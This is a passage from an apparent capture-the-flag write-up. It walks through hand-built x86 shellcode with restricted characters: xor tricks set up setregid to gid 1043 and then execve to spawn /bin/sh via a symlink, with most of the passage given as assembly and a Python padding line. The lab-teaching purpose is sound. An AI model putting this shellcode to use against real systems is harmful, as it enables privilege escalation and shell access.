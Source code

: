 We `push ebx` to store the pointer to the end of the supplied payload, so we can use that in `execve` and just point the byte in question to `/bin/sh` with a symlink.

Now, we have to setup `setregid`, and consequently solve our last problem.

Thankfully, this solution is very minor; we simply want `0x413 = 1043` in `eax`, which we can easily do if we start with `0x47474747` in `eax`:
```
push 0x20
pop eax
xor al, 0x20
xor eax, 0x47474747
xor eax, 0x47474354
push eax
pop ebx
```
I'll save you the xor explanation as it's more or less a carbon copy of the previous xor constant finding.

Lastly, we also need `ecx` to have the same value of `ebx`, which ends up also being nothing surprising:

```
push ebx
pop ecx
```

Finally, we just setup `eax` to be `0x47 = 71`:
```
push 0x20
pop eax
xor al, 0x20
xor al, 0x47
```
Note again that this is lazy; there's certainly smaller shellcode here just by being more careful with your xor choice.

I placed my first `int 0x80` at `0x8e`, so we'll just forward fill until `0x92`:

```python
shellcode = setregid_shellcode
shellcode += 'G' * (0x92 - len(shellcode))
```

The `execve` shellcode is very similar (recall that we stored `ebx` earlier):

```
pop ebx

push 0x20
pop eax
xor al, 0x20
push eax
pop ecx

push eax
pop edx

xor al, 0x2b
xor al, 0x20
```

